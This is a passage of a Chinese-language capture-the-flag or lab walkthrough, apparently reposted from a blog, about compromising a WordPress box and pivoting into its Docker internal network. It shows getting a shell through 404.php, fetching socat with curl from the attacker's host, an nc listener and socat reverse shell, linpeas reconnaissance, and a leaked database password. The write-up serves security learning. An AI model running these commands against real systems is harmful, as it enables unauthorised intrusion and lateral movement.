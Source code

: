 这里一个flag1找到了![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVq4lCwjpgyMKQjUjFpt3A13pq2fafbWbqqIpS8J5Xiahu0RL9jrymoAQ/640?wx_fmt=png&from=appmsg "")  
flag1：2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998  
### 5、getshell  
  
这里我上传文件都失败了不知道为什么，但是这我们可以使用404.php来弹shell，这样连路径都不用知道![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV8HsavaVmogqnLlnhkRYUZufSBN1gTgbORQ98jr5HDUmzrM0Vl5qREw/640?wx_fmt=png&from=appmsg "")  
这里随机访问错误![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV9YhrsDnageCBYCy4MGphCNwcr5sEavbeSicZb0icPKvsQg3kxicllVGgw/640?wx_fmt=png&from=appmsg "")  
然后开个监听就可以了，这样我们就有了shell，然后修复一下 发现这里没有python也没有wget，所以这里我是看别人的方法做的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV9ia04gKPwFXz3KlmxIjD4GWnaNbE2ia9LicXaaWcyJvwSAj1TUARGRD0Q/640?wx_fmt=png&from=appmsg "")  
进去查看了一下ip，这个ip应该是内网ip，我们想办法进入到内网  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVcF6iaGc0H6OYSaWVOPSuibCPLZF5NH7yte71gb8D4SSZVfwQ3CHbtO5g/640?wx_fmt=png&from=appmsg "")  
这里我们无法传输文件，想传输个socat的文件的，可惜这里不行，我们只能换个方法了 8000端口其实是一台docker容器，我们用蚁剑去弹个shell吧![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV6cZRvX3S7C5lBH1gRiapfRyQoUjq139x1Pw3cy4PTxvRaicoUjKMypEQ/640?wx_fmt=png&from=appmsg "")  
ok了ok了，这里是我忘记进入tmp目录下了，导致文件没权限下载文件 这里就是先开一个python -m http.server 80服务，然后curl -O http://192.168.66.129:80/socat下载socat再赋权chmod +x socat，我们kali开一个监听nc -vlp 9999，然后使用socat去反连shell  
#### 这里获取稳定shell只需要输入bash -i即可，这个也是新学到的，然后上面的方法也可以  
  
从shell提示符可以知道，目前得到的shell是在container里。  
### 6、内网信息收集  
#### 1、内网ip探活、信息收集  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVeotic2MicXP7TJh9yH3JjHK8kELSJ02iaetiaxy0qt8GIibe8su1SQz4MRg/640?wx_fmt=png&from=appmsg "")  
我们这里要用到一个Linpeas脚本来进行内网的探测，他是Linux 系统特权提升和信息收集的自动化脚本工具  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdViblIic2774GrJk0rRZiaFvyG9ia0ibjCz7K3T5Q7uic5Tiaa5fbcDn5yLBXSQ/640?wx_fmt=png&from=appmsg "")  
我们把这个脚本传输到跳板机中 ./linpeas.sh执行一下就能进行信息收集了![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV9rfITvVQ1Dz6ymH9mtkflYibF3icbsliaF0xljoOHwIcBriccRSbKKmX3w/640?wx_fmt=png&from=appmsg "")  
扫描的服务器版本 Linux version 3.13.0-128-generic  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVtt9z4icqL5lH0IbHIdQ4xib7Q2A0t35pqcqrVJCvaELlwKDqg05SmLXA/640?wx_fmt=png&from=appmsg "")  
这里看着像扫描出来的漏洞![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVkffOLXwiaeUTuR9SPuduUtMGU7OnnPj2wfVPnX5txBiak0BuMTnRrS0w/640?wx_fmt=png&from=appmsg "")  
这里是可以探测到内网的ip的，ping -c 1 172.18.0.1-4命令测一下，发现都可以ping的通。![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVQM7FfE4F2U8icgyW4yTic4TUliaKzGkib0pWtOKoR9JSjkLFS4b4Wnw3IQ/640?wx_fmt=png&from=appmsg "")  
这里有数据库账户密码wordpress/WordPressISBest 或者我们使用脚本进行存活ip探测![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVQ7DMAks4Ph7USibPJvuCfibD2ialLFHHBViajLZ8t0Jibs2uE1uAGwiakovA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVkK6ib2PsvKDrQWXs3d1TUeZibN4fGYltxlWc83SbbpSz9SHkdtWAribSg/640?wx_fmt=png&from=appmsg "")  
#### 2、内网端口探活  
  